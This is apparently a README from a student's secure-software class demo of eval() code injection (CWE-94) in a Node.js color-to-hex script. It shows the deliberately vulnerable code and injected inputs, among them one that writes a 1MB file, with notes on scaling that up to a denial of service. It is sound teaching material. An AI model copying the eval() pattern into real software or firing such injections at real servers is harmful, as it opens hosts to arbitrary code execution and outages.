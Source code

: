 # JavaScript `eval()` Code Injection Example  

## Description  
This exploits a Node script which is vulnerable to code injection ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)) done for my Engineering Secure Software class as a demo.  I did a quick writeup for the vulnerability [here](code-injection-writeup.pdf)

## Instructions
I have included a script which will take a sting of a color in lowercase and output a hex value that matches that color, for example:
```
Enter a color in lowercase to get its hex value (e.x. blue):  
purple
#800080
```
The bulk of the script's logic can be found here:
``` javascript
var colorHexes = {
    red: '#FF0000',
    yellow: '#FFFF00',
    blue: '#0000FF',
    black: '#000000',
    white: '#FFFFFF',
    green: '#008000',
    purple: '#800080',
    orange: '#FFA500'
};

r.question('Enter a color in lowercase to get its hex value (e.x. blue): ', function (statement) {
    console.log(eval('colorHexes.' + statement));
    process.stdin.pause();
});
```
This takes the user input and places it right into an `eval()` call.  `eval()` will take the string (including the user input) and execute it as JavaScript code.  This statement will get the property of the `colorHexes` object that matches the input to easily map inputted colors to outputted hex values.  The problem with this, however, is that the user can end the line being evaluated using a `;` and execute arbitrary JavaScript code.

For example: you can get the console to output a "Hello World!" like so:
```
Enter a color in lowercase to get its hex value (e.x. blue):
>yellow;console.log('Hello World!');
Hello World!
undefined
```
Or you can take this script:
``` javascript
var fs=require("fs"),
stream=fs.createWriteStream("bigFile.txt",{flags:"w"});
const megabyte="1000000",
outputStr="thisisabigfile";
for(var i=0;i<megabyte/outputStr.length;i++) {
	stream.write("thisisabigfile");
}
```
Which will create a 1MB file called "bigFile.txt", and exploiting the script into executing it like so:
```
Enter a color in lowercase to get its hex value (e.x. blue):
>purple; var fs=require("fs"),stream=fs.createWriteStream("bigFile.txt",{flags:"w"});const megabyte="1000000",outputStr="thisisabigfile";for(var i=0;i<megabyte/outputStr.length;i++)stream.write("thisisabigfile");
false
```
If you were to modify this script slightly, you could create a much larger file (1GB, 1TB, etc.) which could lead to the machine the server is being hosted on to have poor performance due, or even crash altogether, causing a denial of service.  
  
Another exploit could use the [Node OS module](https://nodejs.org/api/os.html) to expose information of the machine that the Node server is running on.  When arbitrary code can be executed on a server, any number of things can happen to compromise the confidentiality or integrity of the data on the server - or to harm the availability of that server.

## Makefile
I've included a Makefile with two targets:  
* `default` will give the intended input into the program once, then exploit the program to call a "secret function"
* `bigfile` will exploit the script create a 1MB file (like explained above) called `bigFile.txt`

#### Note
This Makefile **does not** work with Node version 0.6.12 (the version currently on the SE lab machines), I have tested it and had it work on Node version 4.6.1.
